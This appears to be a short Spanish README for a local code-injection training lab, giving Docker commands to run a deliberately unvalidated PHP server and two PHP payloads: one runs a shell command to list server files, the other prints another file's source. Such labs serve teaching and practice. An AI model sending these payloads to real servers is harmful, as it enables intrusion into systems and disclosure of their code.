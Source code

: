 # Code Injection

Descargar y Montar el servidor desde Docker:

```bash
docker pull ghcr.io/ingenieroricardo/codeinjection:latest
docker run --publish 8080:80 ghcr.io/ingenieroricardo/codeinjection:latest
```

<hr>

Al no tener validaciones se pueden enviar PHP que se pueden ejecutar como estos:

```php
<?php
  $salida = shell_exec("cd .. && ls");
  echo "<pre>$salida</pre>";
?>
```
Con este codigo podemos conocer los archivos en el servidor


```php
<?php
  show_source("../archivos.php");
?>
```
Con este codigo podemos ver codigo fuente
